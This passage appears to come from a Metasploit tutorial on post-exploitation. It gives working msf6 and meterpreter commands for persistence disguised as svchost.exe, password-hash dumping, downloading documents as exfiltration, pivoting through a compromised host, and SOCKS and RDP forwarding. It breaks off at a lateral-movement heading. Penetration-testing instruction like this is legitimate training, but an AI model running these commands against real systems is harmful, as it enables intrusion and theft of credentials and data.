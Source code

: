 5. **Establish Persistence**:
   ```
   msf6 > use post/windows/manage/persistence_exe
   msf6 post(windows/manage/persistence_exe) > set SESSION 3
   msf6 post(windows/manage/persistence_exe) > set EXE_NAME svchost.exe
   msf6 post(windows/manage/persistence_exe) > set STARTUP USER
   msf6 post(windows/manage/persistence_exe) > run
   ```

6. **Data Exfiltration**:
   ```
   meterpreter > run post/windows/gather/smart_hashdump
   meterpreter > search -f *.docx
   meterpreter > download C:\\Users\\Administrator\\Documents\\strategic_plan.docx
   ```

### Pivoting and Network Expansion

One of Metasploit's most powerful capabilities is using compromised systems as pivots to access otherwise unreachable network segments.

#### Discovery Beyond the Initial Target

```bash
# Set up routes through the compromised host
meterpreter > run autoroute -s 10.0.0.0/24

# List current routes
msf6 > route

# Add a manual route
msf6 > route add 10.0.0.0/24 1

# Scan through the pivot
msf6 > use auxiliary/scanner/portscan/tcp
msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS 10.0.0.1-254
msf6 auxiliary(scanner/portscan/tcp) > set PORTS 445
msf6 auxiliary(scanner/portscan/tcp) > run
```

#### Setting Up Proxies

```bash
# Create a SOCKS proxy
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set VERSION 4a
msf6 auxiliary(server/socks_proxy) > set SRVPORT 1080
msf6 auxiliary(server/socks_proxy) > run -j

# Create a reverse port forward
meterpreter > portfwd add -l 3389 -p 3389 -r 10.0.0.10
```

#### Advanced Lateral Movement
